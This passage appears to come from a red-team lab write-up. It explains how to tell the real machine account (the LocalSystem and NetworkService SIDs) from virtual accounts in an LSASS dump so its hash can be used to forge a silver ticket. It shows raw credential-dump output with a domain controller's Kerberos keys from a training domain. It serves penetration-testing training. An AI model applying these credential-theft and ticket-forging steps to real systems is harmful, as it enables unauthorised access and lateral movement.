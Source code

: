 ## Finding "True" Machine Accounts
In order to find the "true" machine account (one that isn't a virtual account), we simply need to find an SID for a security principal that uses the machine account's credentials. According to Microsoft's SID documentation I referenced earlier (and more clearly by this StackOverflow answer [here](https://stackoverflow.com/questions/510170/the-difference-between-the-local-system-account-and-the-network-service-acco)), SIDs `S-1-5-18` (aka `LocalSystem`) and `S-1-5-20` (aka `NetworkService`) both utilize the local machine account's credentials when they are required to authenticate. When looking at the output of my LSASS dump from SafetyKatz, I was able to confirm that both AES256 hashes matched and were different from all other virtual machine accounts in the output. 

One thing to note is that there is another SID smack dab in the middle of the two we mentioned above - `S-1-5-19`. As the StackOverflow answer notes, this account is for the `LocalService` account. This account is an intentionally low-privileged account that has minimal privileges on a local system and very little privileges across the network. This highlights the need for understanding of specific SID values, as an uninformed Red Teamer may assume this provides a correct hash and spend minutes or hours wondering why their fancy new silver ticket isn't working. 

Another interesting identifier for likely "real" machine accounts is their logon date. For all the virtual accounts, I found that they had all been logged in for around 12-16 hours or less, while `LocalSystem` and `NetworkService` had been around for months. I compared this with my own lab machine and after rebooting, as expected

So, did this solve the problem? You be it did. The student was able to grab the right hash, form a TGS/ST with them, and successfully login to the host. Mystery solved!

```
Authentication Id : 0 ; 27860 (00000000:00006cd4)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/15/2025 2:57:40 AM
SID               : S-1-5-96-0-1

         * Username : DCORP-DC$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 54 15 1e 36 fd 0a af af 2a [snip]
         * Key List :
           aes256_hmac       983237a2a0b9c52453911c0eaf2fa7bd20df046a834384c5e0d396826dd6abe8
           aes128_hmac       3a8b1c50e95780d4080cfa265cca27df
           rc4_hmac_nt       d316cf5d2ff24bc4f5859073ec0e4796
           rc4_hmac_old      d316cf5d2ff24bc4f5859073ec0e4796
           rc4_md4           d316cf5d2ff24bc4f5859073ec0e4796
           rc4_hmac_nt_exp   d316cf5d2ff24bc4f5859073ec0e4796
           rc4_hmac_old_exp  d316cf5d2ff24bc4f5859073ec0e4796

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-DC$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/15/2025 2:57:36 AM
SID               : S-1-5-18

         * Username : dcorp-dc$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       a100fd2387d8b17334f09548edf1dde844b176770772df7077ff1fcd87952e8a
           rc4_hmac_nt       d316cf5d2ff24bc4f5859073ec0e4796
           rc4_hmac_old      d316cf5d2ff24bc4f5859073ec0e4796
           rc4_md4           d316cf5d2ff24bc4f5859073ec0e4796
           rc4_hmac_nt_exp   d316cf5d2ff24bc4f5859073ec0e4796
           rc4_hmac_old_exp  d316cf5d2ff24bc4f5859073ec0e4796
```